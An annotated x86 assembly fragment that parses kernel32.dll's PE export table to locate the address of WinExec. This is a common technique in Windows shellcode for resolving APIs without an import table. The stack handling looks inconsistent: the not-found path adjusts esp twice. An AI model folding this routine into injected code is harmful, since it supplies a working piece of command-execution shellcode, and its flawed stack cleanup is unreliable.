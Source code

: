 ```nasm
mov eax, [ebx + 3Ch]		; RVA of PE signature
add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
mov eax, [eax + 78h]		; RVA of Export Table
add eax, ebx 			; Address of Export Table

mov ecx, [eax + 24h]		; RVA of Ordinal Table
add ecx, ebx 			; Address of Ordinal Table
mov [ebp-0Ch], ecx 		; var12 = Address of Ordinal Table

mov edi, [eax + 20h] 		; RVA of Name Pointer Table
add edi, ebx 			; Address of Name Pointer Table
mov [ebp-10h], edi 		; var16 = Address of Name Pointer Table

mov edx, [eax + 1Ch] 		; RVA of Address Table
add edx, ebx 			; Address of Address Table
mov [ebp-14h], edx 		; var20 = Address of Address Table

mov edx, [eax + 14h] 		; Number of exported functions

xor eax, eax 			; counter = 0

.loop:
        mov edi, [ebp-10h] 	; edi = var16 = Address of Name Pointer Table
        mov esi, [ebp-4] 	; esi = var4 = "WinExec\x00"
        xor ecx, ecx

        cld  			; set DF=0 => process strings from left to right
        mov edi, [edi + eax*4]	; Entries in Name Pointer Table are 4 bytes long
        			; edi = RVA Nth entry = Address of Name Table * 4
        add edi, ebx       	; edi = address of string = base address + RVA Nth entry
        add cx, 8 		; Length of strings to compare (len('WinExec') = 8)
        repe cmpsb        	; Compare the first 8 bytes of strings in 
        			; esi and edi registers. ZF=1 if equal, ZF=0 if not
        jz start.found

        inc eax 		; counter++
        cmp eax, edx    	; check if last function is reached
        jb start.loop 		; if not the last -> loop

        add esp, 26h      		
        jmp start.end 		; if function is not found, jump to end

.found:
	; the counter (eax) now holds the position of WinExec

        mov ecx, [ebp-0Ch]	; ecx = var12 = Address of Ordinal Table
        mov edx, [ebp-14h]  	; edx = var20 = Address of Address Table

        mov ax, [ecx + eax*2] 	; ax = ordinal number = var12 + (counter * 2)
        mov eax, [edx + eax*4] 	; eax = RVA of function = var20 + (ordinal * 4)
        add eax, ebx 		; eax = address of WinExec = 
        			; = kernel32.dll base address + RVA of WinExec

.end:
	add esp, 26h		; clear the stack
	pop ebp
	ret
```
